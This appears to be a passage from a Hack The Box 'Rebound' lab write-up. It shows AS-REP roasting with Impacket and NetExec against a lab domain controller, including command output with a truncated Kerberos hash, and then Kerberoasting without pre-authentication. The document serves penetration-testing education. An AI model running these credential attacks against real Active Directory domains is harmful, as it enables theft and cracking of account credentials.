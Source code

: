 ```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-GetNPUsers 'rebound.htb/' -dc-ip 10.129.232.31 \
 -no-pass -usersfile 'valid-users.txt' -outputfile asrep.hashes 
```

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ppaul doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User llune doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fflock doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mmalone doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jjones@REBOUND.HTB:539d677784995c362...<SNIP>...5907a8cc7264bb06
[-] User nnoon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ldap_monitor doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User oorend doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User winrm_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User batch_runner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tbrady doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User delegator$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- We can perform the same operation with **NetExec**:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc ldap 10.129.232.31 -u 'valid-users.txt' -p '' --asreproast ASREPROAST.txt
SMB         10.129.232.31    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.129.232.31    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:878af35ccf86995c362...<SNIP>...5907a8cc7264bb06
```

We see that `jjones` returns an encrypted TGT. Unfortunately, it does not seem to be crackable as our list, `rockyou.txt`, is exhausted. 

#### Kerberoasting without Creds and Pre-auth
> [Reference](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)

Impacket has been modified to support this with the `no-preauth` flag added for impacket-GetUserSPNs script:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-GetUserSPNs -no-preauth 'jjones' -usersfile valid-users.txt -outputfile kerb.hashes 'rebound.htb/' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: ppaul - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: llune - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: fflock - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mmalone - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jjones - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: nnoon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: oorend - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: winrm_svc - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: batch_runner - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```